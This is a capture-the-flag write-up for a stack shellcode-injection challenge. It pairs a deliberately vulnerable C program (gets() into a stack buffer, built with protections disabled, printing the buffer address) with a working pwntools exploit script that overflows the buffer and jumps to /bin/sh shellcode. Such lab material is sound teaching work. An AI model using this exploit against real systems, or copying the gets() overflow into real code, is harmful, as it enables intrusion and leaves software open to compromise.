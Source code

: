 ### Files 
[chal]()
# Description 
Sometimes it is possible to inject our own code into a program. The code we inject is commonly called “shellcode”.

Once we’ve injected out shellcode into the process, we can jump to it and start executing. Commonly we want to call /bin/sh.
```
#include <stdio.h>
#include <string.h>
// gcc -no-pie -fno-stack-protector -z execstack -g -o chal chal.c

int main() {
    char buffer1[128];

    printf("The buffer is located at: %p\n", buffer1);

    gets(buffer1);
}
```
# Solution 
We will write shellcode to the stack, and then abusing the buffer overflow we will jump to the shellcode.

### Solve Script 
```
import pwn

elf = pwn.ELF("./chal")
p = elf.process()

pwn.context.binary = elf
shellcode = pwn.shellcraft.sh()
print(shellcode)
shellcode = pwn.asm(shellcode)

p.recvuntil("The buffer is located at: ")
buffer_address = int(p.recvline().strip(), 16)
print(f"{hex(buffer_address)=}")

p.sendline(shellcode.ljust(128, b'\x00') + pwn.p64(0xdeadbeef) + pwn.p64(buffer_address))
p.interactive()
```

